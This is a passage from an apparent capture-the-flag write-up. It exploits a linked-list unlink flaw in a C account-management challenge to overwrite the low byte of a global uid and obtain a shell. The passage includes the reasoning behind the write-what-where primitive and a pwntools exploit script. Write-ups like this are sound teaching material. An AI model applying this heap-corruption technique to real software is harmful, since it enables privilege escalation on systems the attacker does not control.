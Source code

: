 ```c
            break;
        }
        curr = curr->next;
    } while(curr);
}
```
We control `curr->next`, so when `prev` is written, we control where! \
Basically this
```c
if(curr->next) {
    curr->next->prev = curr->prev;
}
```
turns into
```c
if(YOUR_ADDRESS != NULL) {
    *(YOUR_ADDRESS+0x8) = curr->prev;
}
```
The `0x8` is the offset of `->prev` from the `list_entry` struct.

How can we utilize it? We can write into anywhere an address. A heap address. \
What do we know about a heap address? The most significant byte is almost always `0`. \
And what do we know about `uid`? It's a 64 bit little endian integer. Thus if we can do
```c
*(ADDRESS_OF_UID - 7) = heap_address
```
We would set the LSB of `uid` to `0`!

Great! Let's write it. Using `gdb` we find the address on the heap of a user we create and get

```py
# //snip//

io = start()

def sign_up(username, password):
    io.sendlineafter(b"> ", b"1")
    io.sendafter(b"username: ", username.ljust(8, b"\x00"))
    io.sendafter(b"password: ", password.ljust(8, b"\x00"))

def sign_in(username, password):
    io.sendlineafter(b"> ", b"2")

    io.sendafter(b"username: ", username.ljust(8, b"\x00"))
    io.sendafter(b"password: ", password.ljust(8, b"\x00"))

def remove_account():
    io.sendlineafter(b"> ", b"3")

def get_shell():
    io.sendlineafter(b"> ", b"4")

def sign_in_and_remove(username, password):
    sign_in(username, password)
    remove_account()

TARGET_ADDR = 0x4052e0-0x7-0x8 # -0x7 to write only the LSB and -0x8 to account for writing to `->prev` and not directly to our address
TARGET_ADDR_BIN = p64(TARGET_ADDR)

sign_up(b"A", TARGET_ADDR_BIN)
sign_up(b"B", b"b")
sign_in_and_remove(b"A", TARGET_ADDR_BIN)
sign_up(b"A", b"c"*8) # The ->next of this guy will be TARGET_ADDR
sign_in_and_remove(b"A", b"c"*8)
```